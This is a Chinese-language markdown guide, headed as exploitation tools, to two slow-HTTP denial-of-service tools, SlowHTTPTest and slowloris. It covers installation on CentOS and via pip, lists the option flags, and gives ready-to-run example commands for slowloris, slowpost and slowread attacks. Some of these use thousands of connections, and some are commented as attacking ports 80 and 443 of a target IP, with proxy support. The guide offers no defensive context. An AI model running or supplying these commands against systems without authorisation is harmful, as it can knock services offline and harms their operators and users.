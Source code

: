## 利用工具
### SlowHTTPTest
[SlowHTTPTest地址](https://github.com/shekyan/slowhttptest)

* Centos7下的编译安装

```
yum install gcc.x86_64 gcc-c++.x86_64 openssl-devel.x86_64 -y

yum install automake.noarch autoconf.noarch -y

git clone https://github.com/shekyan/slowhttptest && cd slowhttptest

./configure

autoreconf -ivf

make && make install

# 安装完成
```

* SlowHTTPTest使用说明

```
-H SlowLoris模式
-B SlowPost模式
-R Range Header模式
-X Slow Read模式

-g 生成统计信息
-o 指定输出文件名
-v 日志等级

-c 建立的连接数，默认为50
-i 在SlowLoris和Slow Post模式中，数据发送的间隔，默认为10
-l 测试维持时间，默认为240
-r 每秒连接个数，默认为50
-s 声明Content-Length header值，默认为4096
-t http verb在请求时使用什么操作，默认为GET
-u 指定目标URL
-x 在SlowLoris和Slow Post模式中，指定发送的最大数据层航都
-y 在Slow Read模式中指定tcp窗口范围上限，默认为32
-f 指定Content-Type Header，默认为application/x-www-form-urlencoded
-m 指定Accept Header，默认为text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5

-d 为所有连接指定代理
-e 为探测连接指定代理
-p 指定等待时间来确认攻击已经成功
```

* 案例

```
# slowloris模式
slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -t GET -u URL -x 24 -p 3

# slowpost模式
slowhttptest -c 3000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t POST -u URL -x 10 -p 3

# slowread模式
slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u URL -p 3
```


### slowloris
[slowloris](https://github.com/gkbrk/slowloris.git)

* 安装

```
# pip安装
pip3 install slowloris
slowloris example.com

# git下载
git clone https://github.com/gkbrk/slowloris.git && cd slowloris
python3 slowloris.py example.com
```

* slowloris使用说明

```
-p PORT 指定端口，默认80
-s SOCKETS 套接字数量，默认150
-v 增加日志记录
-ua 对每个请求随机化UA参数
--proxy-host PROXY_HOST SocketS5代理主机，默认127.0.0.1
--porxy-port PROXY_PORT SocketS5代理端口，默认8080
--https 对请求使用https

# SocketS5代理支持，需要额外安装PySocks Python模块
pip3 install PySocks
```

* 案例

```
python slowloris.py IP # 攻击http 80端口

python slowloris.py -p 443 --https IP # 攻击https 443端口
```

